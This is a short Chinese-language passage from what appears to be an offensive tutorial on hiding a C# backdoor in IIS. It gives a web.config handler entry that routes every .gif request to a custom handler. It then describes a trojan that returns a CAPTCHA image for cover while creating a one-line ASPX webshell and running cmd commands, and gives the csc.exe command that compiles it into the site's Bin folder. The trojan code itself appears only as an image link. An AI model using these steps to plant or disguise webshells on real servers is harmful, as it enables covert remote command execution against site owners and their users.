 ```
<handlers> <add name="PageHandlerFactory-ISAPI-2.0-32" path="*.gif" verb="*" type="IsapiModules.Handler" preCondition="integratedMode"/> </handlers>
```




笔者编写了一个C\#的小马，保存名称为IsapiModules.Handler.cs
，实现三个功能，一是生成验证码，二是创建一个aspx的一句话文件，三是执行cmd命令；生成验证码的目的是为了更好的隐藏自己，从HTTP返回的数据里输出的是一张图片文件，代码片段如下图

![](../img/net/a48ce47513bb5a2c1ecb7d820c582520.png)

再在命令行下生成 IsapiModules.Handler.dll，生成DLL的命令如下：

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:library /r:System.Web.dll -out:C:\inetpub\wwwroot\Bin\IsapiModules.Handler.dll C:\inetpub\wwwroot\IsapiModules.Handler.cs
```
